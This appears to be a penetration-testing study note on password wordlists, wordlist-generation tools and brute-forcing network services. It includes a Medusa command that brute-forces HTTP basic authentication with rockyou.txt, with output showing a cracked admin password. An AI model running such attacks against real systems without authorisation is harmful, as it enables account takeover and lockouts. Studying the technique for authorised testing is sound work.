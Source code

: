 Kali Linux includes a number of these dictionary files in the `/usr/share/wordlists/` directory and many more are [hosted online](https://github.com/danielmiessler/SecLists).

- [SecLists](https://github.com/danielmiessler/SecLists) ^a28b1d
- [Assetnote Wordlist](https://wordlists.assetnote.io/) ^b03d62
- https://github.com/nice-registry/all-the-package-names (npm public package names)
- https://gist.github.com/jhaddix/86a06c5dc309d08580a018c66354a056

Better option is [Creating Custom Wordlists](../../Readwise/Articles/blackbird-eu%20-%20Creating%20Custom%20Wordlists%20for%20Bug%20Bounty%20Targets%20A%20Complete%20Guide.md) based on the specific target.

### Wordlist generation tools

Web Specific:
- [cewl](../Tools/cewl.md) [^1]
- Tok [^3]
- getjswords.py [^4]

Password specific:
- [crunch](../Tools/crunch.md)
- https://github.com/shmuelamar/cracken
- https://github.com/Mebus/cupp
- https://github.com/sc0tfree/mentalist
- https://github.com/r3nt0n/bopscrk
- [john (dictionary generation)](../Tools/john.md#Dictionary%20generation)

---

# Common Network Service Brute-Forces

>[!tip]
>Bear in mind that password attacks against network services are **noisy**, and in some cases, **dangerous**. Multiple failed login attempts will usually generate **logs** and **warnings** on the target system and may even **lock out accounts** after a pre-defined number of failed login attempts. This could be disastrous during a penetration test, preventing users from accessing production systems until an administrator re-enables the account. Keep this in mind before blindly running a network-based brute force attack.

The hidden art behind network service password attacks is choosing appropriate targets, user lists, and password files carefully and intelligently before initiating the attack.

## HTTP htaccess Attack with Medusa

```bash
kali@kali:~$ medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http
-m DIR:/admin
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: 123456 (1 of 14344391 com
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: 12345 (2 of 14344391 comp
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: 123456789 (3 of 14344391
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: password (4 of 14344391 c
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: iloveyou (5 of 14344391 c
...
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: samsung (255 of 14344391
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: freedom (256 of 14344391
ACCOUNT FOUND: [http] Host: 10.11.0.22 User: admin Password: freedom [SUCCESS]
```


[^1]: [Extracting in-page keywords](../../Readwise/Articles/blackbird-eu%20-%20Creating%20Custom%20Wordlists%20for%20Bug%20Bounty%20Targets%20A%20Complete%20Guide.md#Extracting%20in-page%20keywords)
[^2]: [httpsgithub.comSlon104 - GitHub - Slon104Common-PIN-Analysis-from-haveibeenpwned.com](../../Readwise/Articles/httpsgithub.comSlon104%20-%20GitHub%20-%20Slon104Common-PIN-Analysis-from-haveibeenpwned.com.md)
[^3]: [Extracting URL keywords](../../Readwise/Articles/blackbird-eu%20-%20Creating%20Custom%20Wordlists%20for%20Bug%20Bounty%20Targets%20A%20Complete%20Guide.md#Extracting%20URL%20keywords)
[^4]: [Extracting keywords from JavaScript files](../../Readwise/Articles/blackbird-eu%20-%20Creating%20Custom%20Wordlists%20for%20Bug%20Bounty%20Targets%20A%20Complete%20Guide.md#Extracting%20keywords%20from%20JavaScript%20files)